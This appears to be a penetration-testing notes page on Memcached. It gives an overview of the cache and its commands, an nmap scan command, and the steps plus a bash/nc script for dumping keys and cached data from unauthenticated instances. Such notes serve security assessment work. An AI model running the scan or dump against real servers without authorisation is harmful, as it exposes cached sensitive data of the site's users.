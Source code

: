 # Memcached

### Overview

Memcached is a distributed in-memory key-value store caching system. It is often
used to speed up dynamic database-driven websites by caching data and objects
in RAM to reduce the number of times an external data source (such as a
database or API) must be read.

Memcached is a free and open-source software written in	C, that runs on
Unix-like operating systems (at least Linux and OS X) and on Microsoft Windows.

Memcached's APIs provide a very large hash table distributed across multiple
machines. When the table is full, subsequent inserts cause older data to be
purged in least recently used (LRU) order. Expired items are removed first then
the least used items are overwritten so that the frequently requested
information can be retained in memory.

Memcached is widely used for large scale web application, including major
players like YouTube, Reddit, Facebook, Twitter, and Wikipedia.

Memcached supports the only following data structure, called an "item" which
consists of:
  - A key (arbitrary string up to 250 bytes in length. No space or newlines
    for ASCII mode)
  - A 32bit "flag" value
  - An expiration time, in seconds.
    '0' means never expire. Can be up to 30 days.
  - A 64bit "CAS" value, which is kept unique.
  - Arbitrary item data

###### Supported commands

Memcached handles a small number of basic commands:

| Command | Description | Example |
|---------|-------------|---------|
| version | Print memcached version | version |
| verbosity | Increases log level | verbosity |
| stats | Prints general memcached instance statistics | stats |
| stats slabs | Prints memory statistics including number of active slabs | stats slabs |
| stats items | Prints items stored broken down by slab | stats items <br/> STAT items:<SLAB_ID\>:number 1 <br/> ... |
| stats cachedump <SLAB_ID/> <NUMBER_OF_KEYS/> | Undocumented command that still exists in 1.4.5 but might be removed at anytime. <br/> Prints keys per slab id, limited to dump of one page (1MB of data) | stats cachedump 3 100 |   
| stats malloc <br/> stats detail <br/> stats sizes <br/> stats reset | Prints others statistics information | stats ... |
| get <KEY\> |	Reads the value associated to the specified key | get key1 |
| set <KEY\> <FLAGS\> <TTL\> <SIZE\> <DATA\> |	Set a key and its associated parameters and data | set key1 0 60 4 \r\ndata\r\n |
| add	<KEY\> <FLAGS\> <TTL\> <SIZE\> <DATA\> | Add a new key and its associated parameters and data | add key2 0 60 5 \r\ndata2\r\n |
| replace	<KEY\> <FLAGS\> <TTL\> <SIZE\> <DATA\> | Overwrite existing key and its associated parameters and data | add key1 0 60 5 \r\ndata1\r\n |
| append <KEY\> <FLAGS\> <TTL\> <SIZE\> <DATA\> | Append data to the specified existing key | append key2 0 60 15 |
| prepend <KEY\> <FLAGS\> <TTL\> <SIZE\> <DATA\> |	Prepend data to existing key | prepend key2 0 60 15 |
| incr <KEY\> <NUMBER\> | Increments numerical key value by given number | incr key_int 2 |
| decr <KEY\> <NUMBER\> | Decrements numerical key value by given number | decr key_int 2 |
| delete <KEY\> | Deletes the specified existing key | delete key2 |
| flush_all |	Invalidate all items immediately | flush_all |
| flush_all <N\> |	Invalidate all items in the specified number of seconds | flush_all 60 |
| quit | Terminate current session | quit|

### Network scan

`nmap` can be used to scan the network for memcached services:

```
# memcached supports both TCP and UDP
nmap -sS -sU -v -p 11211 -sV -sC -oA nmap_memcached <RANGE | CIDR>
```

### Unrestricted keys dumping

As most deployments of memcached are within trusted networks, no authentication
mechanism is implemented by default. Thus clients may connect freely to the
memcached instance to retrieve the content cached, which may contain sensible
information.

The dumping of the keys and their associated data relies on the undocumented
command `stats cachedump`, which is needed to retrieve the keys. The command
could be removed at anytime.

The process to dump the memcached keys and values is as follow:

```
# Retrieve slabs identifier
stats items
-> STAT items:<SLAB_ID>:...

# Retrieve the keys within the slab specified. Maximum number of keys: 1000
stats cachedump <SLAB_ID> <NUMBER_OF_KEYS>
-> ITEM <KEY> [24625 b; 1549536086 s] ...

# Retrieve the data associated to the key specified
get <KEY>
-> VALUE <KEY> 0 24625 <DATA>
```

The following bash script, courtesy of Omar Al-Ithawi, can be used to automate
the process above. Note that the script is not adapted for larger memcached
instance.

```
#!/usr/bin/env bash

echo 'stats items'  \
| nc <HOST> 11211  \
| grep -oe ':[0-9]*:'  \
| grep -oe '[0-9]*'  \
| sort  \
| uniq  \
| xargs -L1 -I{} bash -c 'echo "stats cachedump {} 1000" | nc <HOST> 11211'
```
